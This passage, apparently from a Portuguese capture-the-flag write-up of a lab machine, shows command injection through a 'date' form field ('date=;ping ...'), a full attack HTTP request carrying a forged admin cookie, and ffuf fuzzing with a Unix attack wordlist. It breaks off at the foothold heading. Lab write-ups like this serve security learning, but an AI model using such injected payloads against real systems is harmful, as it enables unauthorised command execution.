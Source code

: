 Tentei um RCE básico e funcionou  
`date=;ping 10.10.14.135`  
Enviando um ping pra minha máquina e com tcpdump confirmando a execução do ping.

```text
POST /dashboard HTTP/1.1
Host: 10.129.133.211:5000
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.133.211:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.133.211:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close

date=;ping 10.10.14.135
```
{: .nolineno }  

![alt text](/assets/img/headless/5.png)

Mas pra conhecimento decide usar o ffuf pra descobrir os payload possíveis no parâmetros date.

Salvei o request do burp como `payload.req` e em date adicionei FUZZ.
`date=FUZZ`
Usei a wordlist `UnixAttacks.fuzzdb.txt`

```shell
─ ffuf -ic -c -of csv -request-proto http -request payload.req -w /usr/share/seclists/Fuzzing/UnixAttacks.fuzzdb.txt -fs 2028
```
{: .nolineno }  
Como a lista ficou grande resolvi não colocar aqui.  
Talvez essa não seja a wordlist correta pra isso.

## **Acesso/Foothold**
